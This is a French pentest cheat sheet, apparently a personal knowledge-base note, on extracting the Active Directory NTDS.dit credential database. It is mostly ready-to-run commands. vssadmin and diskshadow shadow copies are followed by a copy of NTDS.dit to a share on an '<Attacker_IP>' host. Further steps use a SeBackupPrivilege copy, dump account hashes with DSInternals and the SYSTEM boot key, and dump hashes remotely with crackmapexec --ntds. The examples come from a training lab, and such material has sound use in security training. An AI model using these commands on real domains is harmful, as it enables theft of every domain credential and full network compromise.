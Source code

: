 ```yaml
---
public: true
---
```


## Localement

### Cliché instantané (vssadmin)

#### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

#### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```

### Cliché instantanné (diskshadow.exe)

#### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

#### Copier à partir du cliché instantanné

**Remarque** :  Si le fichier n'est pas accessible et que l'on est membre du groupe *Backup Operator*, on pourra y accéder via le privilège **SeBackupPrivilege** (voir [[Privilèges Windows Exploitables]])

```
# Ce cmdlet est lié à un outil référencé dans le lien ci-dessus
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Extraction des informations présentes dans NTDS.dit

```powershell-session
# https://github.com/MichaelGrafnetter/DSInternals/releases/download/v4.12/DSInternals_v4.12.zip
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key


```

## A distance

```
crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds
```
